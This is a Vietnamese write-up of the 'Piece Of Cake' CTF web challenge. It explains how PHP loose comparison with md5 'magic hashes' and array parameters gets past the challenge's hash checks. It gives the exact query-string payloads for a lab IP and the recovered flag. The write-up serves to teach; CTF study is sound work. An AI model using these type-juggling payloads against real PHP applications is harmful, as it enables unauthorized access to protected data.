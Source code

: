# Piece Of Cake
> IP: http://103.245.249.76:49155


```php
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

### Strategy
- Đây cũng là một bài về PHP và tiếp tục khai thác [PHP Loose Comparsion](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) và [Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes).
- Bài cho 3 GET Parameter là `0`,`1`,`2`. 

- Với `$_GET[`0`]` thì khi so sánh `==`, hash md5 so sánh với chính nó, mình tìm được `0e215962017` và `0e291242476940776845150308577824`. Bạn có thể tham khảo thêm ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs).

```htm1
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
```
=> Mình có payload đầu tiên và tìm ra được phần đầu của flag `FPTUHACKING{StR1Ngs_`
`http://103.245.249.76:49155/?0=0e1137126905`

![image](https://user-images.githubusercontent.com/93731698/175820279-6ddefd10-83ba-405d-a35e-72732ec86ded.png)

- Tiếp theo, chúng ta có `$_GET['1']` và `$_GET['2']`.

```htm1
$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
```

- Mình thấy có 1 biến `$slat` concat trước các biến `$str2`, `$Str3` và đọc dòng lệnh `if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3))`, mình đã nghĩ ngay thử gán Parameter `1` = mã hash nào đó, Parameter `2` = mã hash nào đó vì dây là loose compare trong PHP như ở trên mình nói khi so sánh `==`. Nhưng mình đã thử 1 cách khác mình, 1 cho Parameter `1` vào 1 mảng và gán với 1 giá trị random (`1[]=`), Parameter `2` tương tự => Bypass và ra phần còn lại của flag. 
- Giải thích nghĩ hơn về concat một String với Array, bạn có thể tham khảo ở [đây](https://jaimelightfoot.com/blog/b00t2root-ctf-easyphp/).
- Payload: `http://103.245.249.76:49155/?0=0e1137126905&1[]=2222&2[]=adasdsa`

### $Flag:

![image](https://user-images.githubusercontent.com/93731698/175820756-96a99dcf-41c1-4483-8bb7-4c261b38f12f.png)

Flag: `FPTUHACKING{StR1Ngs_c0nCaTeNaT1oN_1s_EaSy_!!!}`

# References: 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs, here will explain clearly `PHP Juggling type and magic hashes`.




